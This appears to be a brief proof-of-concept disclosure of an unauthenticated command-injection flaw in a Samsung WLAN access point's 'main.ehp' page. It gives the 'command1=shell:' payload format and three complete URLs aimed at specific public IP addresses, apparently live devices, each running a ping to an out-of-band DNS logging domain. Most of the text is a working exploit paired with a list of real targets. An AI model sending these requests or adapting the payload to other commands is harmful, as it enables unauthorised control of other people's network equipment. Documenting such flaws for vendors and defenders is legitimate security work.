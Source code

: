 Samsung WLAN AP, which has a command execution vulnerability, injects commands and executes them via remote without logging in.
main.ehp exists for remote command execution.
For example, execute the ping command through the shell.
Command format:&command1=shell:ping+dnslog
Execute commands directly through the browser without logging into the device.
xxx/main.ehp?cate=test&path=users&command1=shell:ping+dnslog
The following examples verify the existence of the vulnerability：
http://220.92.38.104/main.ehp?cate=test&path=users&command1=shell:ping+ad1f15a7.dns.1433.eu.org
 
http://112.170.189.230/main.ehp?cate=test&path=users&command1=shell:ping+05c1e934.dns.1433.eu.org
 
http://121.174.124.33/main.ehp?cate=test&path=users&command1=shell:ping+78d29a40.dns.1433.eu.org
